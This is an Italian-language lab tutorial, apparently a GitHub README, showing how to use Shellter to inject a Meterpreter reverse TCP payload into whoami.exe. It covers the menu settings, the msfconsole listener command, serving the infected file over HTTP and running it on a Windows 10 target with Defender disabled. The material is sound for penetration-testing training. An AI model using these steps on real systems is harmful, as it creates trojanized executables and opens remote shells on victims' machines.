




# Shellter - Dynamic Shellcode Injection

## Obiettivo

Utilizzare Shellter per iniettare un payload Meterpreter in un eseguibile Windows legittimo.

## Cos'è Shellter

Shellter è un tool di avanguardia per l'iniezione dinamica di shellcode. A differenza di altri strumenti, Shellter:

- Non usa patch statiche predefinite
- Modifica dinamicamente il PE in base alla struttura del file
- Mantiene la funzionalità originale dell'eseguibile
- Supporta sia x86 che x64 (in modalità compatibilità)

## Come Funziona

```
1. Analisi del PE target
         |
         v
2. Ricerca di spazio per l'iniezione
         |
         v
3. Iniezione dinamica dello shellcode
         |
         v
4. Modifica del punto di ingresso (Entry Point)
         |
         v
5. Il file infetto mantiene la funzionalità originale
```

## Ambiente di Test

| Macchina | OS | IP | Ruolo |
|----------|----|----|-------|
| Attacker | Kali Linux | 192.168.23.128 | Generazione payload |
| Target | Windows 10 | 192.168.23.130 | Esecuzione eseguibile infetto |

## Prerequisiti

### Su Kali Linux

```
sudo apt update
sudo apt install -y wine shellter
```

### Su Windows 10

- Windows Defender disabilitato (per il laboratorio)
- Privilegi di amministratore (consigliati)

---

## Procedura Passo-Passo

### Step 1: Prepara l'Eseguibile Target

Crea una directory di lavoro e copia l'eseguibile legittimo:

```
mkdir -p ~/Desktop/shellter_lab
cd ~/Desktop/shellter_lab
cp /usr/share/windows-resources/binaries/whoami.exe ~/Desktop/shellter_lab/
chmod 777 whoami.exe
```

**Verifica:**

`ls -la whoami.exe`

**Output atteso:**



---

### Step 2: Avvia Shellter in Modalità Auto

`shellter`

### Step 3: Configurazione

Segui il menu interattivo di Shellter:

| Prompt | Seleziona | Descrizione |
|--------|----------|-------------|
| `Choose Operation Mode - Auto/Manual (A/M/H)` | **A** | Modalità Automatica |
| `PE Target:` | **whoami.exe** | Scegli l'eseguibile da infettare |
| `Enable Stealth Mode? (Y/N/H)` | **N** | No stealth (per test) |
| `Use a listed payload or custom? (L/C/H)` | **L** | Usa payload dalla lista |
| `Select payload by index:` | **1** | Meterpreter Reverse TCP |
| `SET LHOST:` | **192.168.23.128** | IP di Kali |
| `SET LPORT:` | **5555** | Porta di ascolto |

**Output atteso durante l'iniezione:**

```
[+] Initializing...
[+] PE Target: whoami.exe
[+] Architecture: x64
[+] Tracing thread...
[+] Searching for code cave...
[+] Code cave found at: 0x00012345
[+] Injecting payload...
[+] Payload injected successfully!
[+] Entry point modified!
[+] Injection: Verified!
[+] Done!
```

**Premi `Enter` per uscire da Shellter.**

---

### Step 4: Avvia il Listener Metasploit (Terminale 2 - nuovo terminale)

`msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.23.128; set LPORT 5555; exploit"`



---

### Step 5: Avvia il Server HTTP (Terminale 1 - dove hai eseguito Shellter)

```
cd ~/Desktop/shellter_lab
python3 -m http.server 8001
```

---

### Step 6: Consegna ed Esecuzione (Windows 10)

Ricorda di disabilitare Windows Defender. A questo punto

**Scarica il file:**

Apri il browser e naviga su:

`http://192.168.23.128:8001/whoami.exe`



**Salva il file sul desktop** (`C:\Users\admin\Desktop\`)

**Esegui il file:**

Apri il **Prompt dei comandi come Amministratore**:

```
cd C:\Users\admin\Desktop
whoami.exe
```

---

### Step 8: Verifica la Sessione (Kali - Terminale 2)



---

## Verifica dell'Attacco (Windows 10)

### 1. Controlla il processo (Task Manager)

- Apri **Task Manager** (`CTRL+MAIUSC+ESC`)
- Vai su **Dettagli**
- Cerca `whoami.exe` (dovrebbe essere in esecuzione)

### 2. Controlla la connessione di rete (CMD)

`netstat -ano | findstr 5555`

**Output atteso:**

`TCP    192.168.23.130:51764    192.168.23.128:5555    ESTABLISHED     XXXX`

Il PID corrisponde a `whoami.exe`.

---

## Note di Sicurezza

> **⚠️ ATTENZIONE**: Questo è un tool didattico: utilizzalo solo in ambienti di test autorizzati. L'uso non autorizzato su sistemi di cui non si possiede il controllo è illegale e perseguibile per legge.